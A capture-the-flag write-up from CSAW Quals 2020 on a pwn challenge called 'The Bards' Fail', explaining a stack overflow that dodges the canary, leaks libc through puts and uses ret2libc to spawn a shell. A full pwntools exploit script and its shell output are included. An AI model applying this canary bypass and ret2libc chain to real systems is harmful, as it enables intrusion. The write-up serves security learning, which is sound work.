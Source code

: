 ```yaml
---
title: The Bards' Fail
date: 2020-09-15 20:05:10
author: Pwn-Solo
author_url: https://twitter.com/Pwn_Solo
categories:
  - Pwn
tags:
  - CSAW Quals
  - Stack Overflow
---
```


**tl;dr**
+ Carefully arranging structs on stack so as to overwrite saved rip , without corrupting the stack canary.
+ Leak libc with puts and execute a ret2libc to get shell 

<!--more-->
**Challenge Points:** 150
**Solves:** 97
## Challenge description

***Pwn your way to glory! You do not need fluency in olde English to solve it, it is just for fun***

we're given the challenge binary along with the libc 

first off , lets take a look at the mitigations enabled 
```gdb
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

## Functionality

This is what the challenge binary looked like 
```
*** Welcome to the Bards' Fail! ***

Ten bards meet in a tavern.
They form a band.
You wonder if those weapons are real, or just props...

Bard #1, choose thy alignment (g = good, e = evil):
g	
Choose thy weapon:
1) +5 Holy avenger longsword
2) +4 Crossbow of deadly accuracy
1
Enter thy name:
testname

Bard #2, choose thy alignment (g = good, e = evil):
```
It first asks us to initialize 10 Bards with the option of choosing their alignment (good or evil).
We control the weapon and name of each bard , which are then stored on the stack .

each Bard is stored in a sort of structure on the stack ... looking into it further , we see that the good and evil structs are not quite the same 

```
'good' allocation -> 48 bytes
0240| 0x7ffdeef25150 --> 0xf0014006c 
0248| 0x7ffdeef25158 ("AAAAAAAA")  <-input 
0256| 0x7ffdeef25160 --> 0x0 
0264| 0x7ffdeef25168 --> 0x0 
0272| 0x7ffdeef25170 --> 0x0 
0280| 0x7ffdeef25178 --> 0x4032000000000000 ('')


'evil' allocation -> 56 bytes
0288| 0x7ffdeef25180 --> 0x63 ('c')
0296| 0x7ffdeef25188 --> 0x4032000000000000 ('')
0304| 0x7ffdeef25190 --> 0x424200140000000f 
0312| 0x7ffdeef25198 --> 0x424242424242 ('BBBBBB') <- input
0320| 0x7ffdeef251a0 --> 0x0 
0328| 0x7ffdeef251a8 --> 0x0 
0336| 0x7ffdeef251b0 --> 0x0 

```

## Exploitation
since evil allocates more bytes I used them to overflow the stack but was greeted with this message ...
```
AAAAAAAAAAAAAAAAAAAA is arrested.
*** stack smashing detected ***:
```
we can see our canary is at the offset 488 from the start of our input and since we give 56*10 bytes we end up corrupting it. The solution is to get our canary to overlap with our input string (instead of the constant data fields of the struct) so that we can choose to not overwrite it . Placing a "good" block at the start ends up doing that for us 

```
second last 'evil' block 
0680| 0x7ffcb4bcd168 --> 0x63 ('c')
0688| 0x7ffcb4bcd170 --> 0x4032000000000000 ('')
0696| 0x7ffcb4bcd178 --> 0x414100140000000f 
0704| 0x7ffcb4bcd180 ('A' <repeats 22 times>)
0712| 0x7ffcb4bcd188 ('A' <repeats 14 times>)
0720| 0x7ffcb4bcd190 --> 0x414141414141 ('AAAAAA')
0728| 0x7ffcb4bcd198 --> 0x69ac49fe9683bf00      <- canary
last 'evil' block 
0736| 0x7ffcb4bcd1a0 --> 0x7ffcb4bcd163 --> 0x630000000000 ('')
0744| 0x7ffcb4bcd1a8 --> 0x4032000000000000 ('') <- corrupted saved rip  
0752| 0x7ffcb4bcd1b0 --> 0x414100140000000f 
0760| 0x7ffcb4bcd1b8 --> 0x141414141 

```
okay.. so the canary's safe but the data from the last evil struct overwrites the saved rip , lucky for us the 'good' allocation has its input starting from ```param_1 + 8``` which is exactly where the saved rip will be . All we do is make a 'good' allocation at the end instead and give in our payload to take control of rip.

```
Stopped reason: SIGSEGV
0x0000414141414141 in ?? ()
```
perfect ! now all we need is a libc leak and a simple ret2libc will do the rest  

## Exploit Code

```py
from pwn import *
import sys
import os

remote_ip,port = 'pwn.chal.csaw.io','5019'
binary = 'bard'
brkpts = '''
'''
if sys.argv[1] == 'remote' :
    io = remote(remote_ip,port)

else:
    io = process(binary,env={'LD_PRELOAD':'./libc-2.27.so'})
    
re = lambda a: io.recv(a)
ru = lambda a: io.recvuntil(a)
rl = lambda  : io.recvline()
s  = lambda a: io.send(a)
sl = lambda a: io.sendline(a)
sla= lambda a,b: io.sendlineafter(a,b)
sa = lambda a,b: io.sendafter(a,b)

def good(weapon,name):
  sla(":\n",'g')
	sla("cy\n",str(weapon))
	sa("name:\n",name)

def evil(weapon,name):
	sla(":\n",'e')
	sla("ent\n",str(weapon))
	sa("name:\n",name)

def sheriff():
	sla("do?\n",'e')

def zombie(inp):
	sla("do?\n",inp)

def trigger(payload):
  for i in range(1):
		good(1,b"A"*8)
  for i in range(8):
		evil(1,b"B"*8)
  
  good(1,payload)
  gdb.attach(io,brkpts)
	
  for i in range(1):
		zombie('r')
  
  for i in range(8):
		sheriff()
	
  for i in range(1):
		zombie('r')	

#gadgets
puts = 0x4006d0
pop_rdi = 0x401143
main = 0x40107b
ret = 0x4006ae

if __name__== "__main__":	
	#good -> 48 bytes
	#bad  -> 56 bytes
	payload = p64(pop_rdi)
	payload += p64(0x602020)
	payload += p64(puts)
	payload += p64(main)
	trigger(payload)

	ru("away.")
	rl()
	leak = re(6)
	leak = u64(leak+b'\x00\x00')-0x80a30
	system = leak + 0x4f4e0
	binsh = leak +0x1b40fa
	
	log.info("base {} ".format(hex(leak)))
	log.info("sys {}".format(hex(system)))
	log.info("/bin/sh {}".format(hex(binsh)))

	payload = p64(ret)
	payload += p64(pop_rdi)
	payload += p64(binsh)
	payload += p64(system)
	trigger(payload)

	io.interactive()
```
The idea to get leaks was to call ```puts@plt``` using a GOT address as the argument ,Then call main again;to then which we give the payload to finally execute a ret2libc


```
pwn-solo@m4chin3:~/ctf/csaw/bard$ python3 exploit.py remote
[+] Opening connection to pwn.chal.csaw.io on port 5019: Done
[*] base 0x7f9f7fe3a000 
[*] sys 0x7f9f7fe894e0
[*] /bin/sh 0x7f9f7ffee0fa
[*] Switching to interactive mode
Options:
(b)ribe
(f)latter
(r)un
$ ls
bard
flag.txt
$ cat flag.txt
flag{why_4r3_th3y_4ll_such_c0w4rds??}
```
pretty cool :)